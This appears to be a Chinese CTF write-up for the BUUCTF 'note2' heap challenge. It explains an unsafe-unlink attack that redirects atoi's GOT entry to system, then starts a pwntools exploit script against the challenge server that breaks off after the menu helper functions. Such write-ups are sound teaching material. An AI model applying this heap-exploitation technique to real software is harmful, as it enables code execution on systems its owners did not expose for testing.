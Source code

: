 ![屏幕截图 2023-11-13 131542](images/7.png)

没有double free和UAF

首先我们依次创建大小为0x80.0x0,0x80三个chunk，并在第一个chunk上创建fake chunk,  设置fake_fd = ptr_addr - 0x18，fake_bk = ptr_addr - 0x10，这样unlink后就可控制ptr，我们利用0x0的第二块修改第三块设置pre_size = 0xa0这样就代表前一块为0xa0的空闲块，free后进行合并，合并后将第一块地址改为atoi的got表地址，将其修改为system函数从而输入/bin/sh进行操控

```python
from pwn import *
#io = process('./asd')
sh=remote('node4.buuoj.cn',26843)
context.log_level='debug'
elf = ELF('./note2')
libc = ELF('./libc-2.23-64.so')

def create(size,content):
    sh.sendlineafter('option--->>',b'1')
    sh.sendlineafter("Input the length of the note content:(less than 128)",str(size))
    sh.sendlineafter("Input the note content:", content)

def check(id):
    sh.sendlineafter('option--->>',b'2')
    sh.sendlineafter("Input the id of the note:", id)

def delete(id):
    sh.sendlineafter('option--->>',b'4')
    sh.sendlineafter("Input the id of the note:", id)

def edit(id,choice,content):
    sh.sendlineafter('option--->>',b'3')
    sh.sendlineafter("Input the id of the note:", id)
    sh.sendlineafter("do you want to overwrite or append?[1.overwrite/2.append]", choice)
```